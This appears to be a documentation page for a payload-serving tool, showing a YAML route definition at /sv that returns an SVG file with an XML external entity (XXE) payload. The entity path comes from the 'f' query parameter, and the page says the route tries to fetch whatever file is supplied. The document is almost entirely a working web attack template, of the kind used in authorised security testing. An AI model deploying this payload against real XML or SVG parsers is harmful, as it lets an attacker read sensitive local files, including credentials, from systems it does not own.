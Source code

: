 ```yaml
---
title: XXE SVG Request Params
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sv$
is_final: true
data:
  headers:
    Content-Type: image/svg+xml
  body: |
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "{{index .Request.GetParams.f 0}}" > ]>
    <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
    </svg>

---
```


### /sv

attempts to get whatever files is supplied via the `f` query parameter
